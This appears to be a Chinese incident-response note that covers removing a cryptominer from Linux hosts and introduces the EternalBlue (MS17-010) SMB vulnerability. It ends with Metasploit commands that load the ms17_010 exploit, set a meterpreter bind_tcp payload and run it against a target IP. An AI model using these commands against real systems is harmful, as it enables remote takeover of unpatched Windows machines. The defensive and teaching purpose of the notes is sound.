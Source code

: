 
  3. 对挖矿病毒脚本分析

  4. 清除挖矿病毒

    1. 关闭异常进程

    2. 删除挖矿程序

#### Linux

  1. 事件发现

    1. 安全平台提示主机进行挖矿登录,持续访问矿池地址,进入主机使用top命令查看进程CPU占用率高

  2. 事件处理

    1. 枚举定时任务:`crontab -l`

    2. 查看anacron异步定时任务:`cat /etc/anacrontab`

    3. 通过`ps -auxef`和`netstat -tulnp`两个命令查看异常进程信息

    4. 结束病毒进程`ps -elf |grep [pid] kill -9 [pid]`

    5. 删除病毒文件`ls -al /proc/[pid]/exe rm -f [exe_path]`

    6. 检查是否存在可疑定时任务

注意:为了避免系统命令被替换,预加载动态库等问题,下载静态链接版本的busybox来进行调查.或者下载源码编译busybox源码,注意编译的时候采用静态链接编译

## 永恒之蓝(MS17-010)

### 永恒之蓝漏洞简介

> 永恒之蓝是指2017年4月14日晚，黑客团体Shadow
> Brokers(影子经纪人)公布一大批网络攻击工具，其中包含"永恒之蓝”工具，“永恒之蓝”利用Windows系统的SMB漏洞可以获取系统最高权限
>
>
> 永恒之蓝通过TCP端口445和139来利用SMBv1和NBT中的远程代码执行漏洞，恶意代码会扫描开放445文件共享端口的Windows机器，无需用户任何操作，只要开机上网，不法分子就能在电脑和服务器中植入勒索软件、远程控制木马、虚拟货币挖矿机等恶意程序。

### 永恒之蓝漏洞攻击利用

    
    
    # 使用msf  
    search ms17_010  
    use 0  
    # 设置Payload为bind_tcp,经过测试,此台机器不允许出网,只能正向连接  
    set payload windows/x64/meterpreter/bind_tcp  
    # 设置IP地址  
    set RHOSTS 10.10.2.11  
    # 运行  
    run  
    